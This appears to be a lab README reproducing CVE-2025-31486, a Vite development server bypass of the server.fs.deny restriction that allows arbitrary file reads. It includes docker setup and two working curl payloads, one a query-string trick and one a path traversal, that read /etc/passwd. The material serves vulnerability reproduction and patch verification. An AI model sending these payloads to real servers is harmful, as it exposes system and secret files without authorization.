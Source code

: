 # Vite Development Server Arbitrary File Read Bypass (CVE-2025-31486)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a development server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite before 6.2.5, 6.1.4, 6.0.14, 5.4.17, and 4.5.12, the `server.fs.deny` feature, which is designed to restrict access to files outside of Vite's serving allow list, can be bypassed. By appending `?.svg?.wasm?init`  to URLs using the `@fs` prefix or with relative paths `/@fs/{{project_path}}/?/../../../../../../etc/passwd?import&?raw` , an attacker can read arbitrary files on the filesystem, as long as the Node.js process has permission to read them.

This vulnerability is a bypass for the patch of [CVE-2025-31125](../CVE-2025-31125/README.md).

References:

- <https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-31486>

## Environment Setup

Execute the following command to start a Vite 6.2.4 development server:

```
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:5173`.

> Note: The development server of the old version of Vite defaults to port 3000, while the new version defaults to port 5173, please pay attention to the difference.

## Vulnerability Reproduction

By appending `?.svg?.wasm?init` to the URL, you can bypass this restriction and retrieve the contents of the file:

```
curl "http://your-ip:5173/@fs/etc/passwd?.svg?.wasm?init"
```

This request will return the contents of the `/etc/passwd` file:

![](1.png)

Alternatively, you can also use the `/@fs/{{project_path}}/?/../../../../../../etc/passwd?import&?raw` query parameters to achieve the same result.

In this lab environment, the project_path is `/usr/src/`. You can verify this by accessing `/@fs/etc/passwd` and checking the response:

![](2.png)

Next, send the payload:

```
curl "http://your-ip:5173/@fs/usr/src/?/../../../../../../etc/passwd?import&?raw"
```

This request will return the contents of the `/etc/passwd` file:

![](3.png)
